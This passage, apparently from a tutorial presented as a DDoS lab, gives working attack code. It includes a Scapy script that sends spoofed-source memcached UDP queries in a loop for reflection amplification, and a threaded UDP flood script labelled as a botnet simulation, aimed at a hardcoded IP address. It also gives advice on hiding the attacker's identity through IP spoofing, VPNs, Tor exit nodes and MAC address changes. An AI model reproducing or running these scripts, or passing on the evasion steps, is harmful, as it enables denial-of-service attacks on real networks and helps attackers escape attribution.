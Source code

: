   2. Craft spoofed packets with Scapy:

     ```python
     from scapy.all import *
     target_ip = "<target_IP>"
     memcached_server = "<memcached_vm_IP>"
     packet = IP(src=target_ip, dst=memcached_server)/UDP(dport=11211)/Raw(load="\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
     send(packet, loop=1, verbose=0)
     ```

- **Anonymity**:

  - Spoof source IP to hide your real IP.
  - Route Scapy through a VPN:
    ```bash
    sudo openvpn --config vpn-config.ovpn
    ```

- **Lab Exercise**:

  1. Run the Scapy script.
  2. Use Wireshark on the target to capture large UDP responses:
     ```bash
     sudo wireshark -f "udp port 11211"
     ```

- **Effectiveness**: Extremely high due to massive amplification (small request → huge response).
- **Weakness Exploited**: Misconfigured servers allowing unauthenticated UDP queries.

### c. Botnet-Driven Attacks

- **Concept**: Use a network of compromised devices (botnets) to distribute and amplify DDoS attacks, simulating real-world scenarios like Mirai or Reaper.
- **Real-World Use**: Botnets like Mirai exploit IoT devices to launch massive attacks (e.g., 2016 DynDNS outage).
- **Lab Simulation**:
  - Create a mini-botnet using multiple VMs.
  - Coordinate attacks from each VM.
- **Tools**: Custom Python script to simulate botnet behavior.
  ```python
  import socket
  import random
  import threading
  target_ip = "185.67.12.66"
  target_port = 80
  def udp_flood():
      sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
      bytes = random._urandom(1490)
      while True:
          sock.sendto(bytes, (target_ip, target_port))
          print(f"Sent UDP packet from {threading.current_thread().name}")
  for i in range(5):  # Simulate 5 bots
      threading.Thread(target=udp_flood, name=f"Bot-{i}").start()
  ```
- **Setup**:
  1. Create 5 Kali VMs, each running the script.
  2. Use a central VM to coordinate (e.g., via SSH or a simple socket server).
- **Anonymity**:
  - Run each VM through a different VPN server or Tor exit node.
  - Spoof MAC addresses on each VM:
    ```bash
    sudo macchanger -r eth0
    ```
- **Lab Exercise**:
  1. Launch the script on all VMs.
  2. Monitor target with `htop` and `tcpdump` to see combined impact.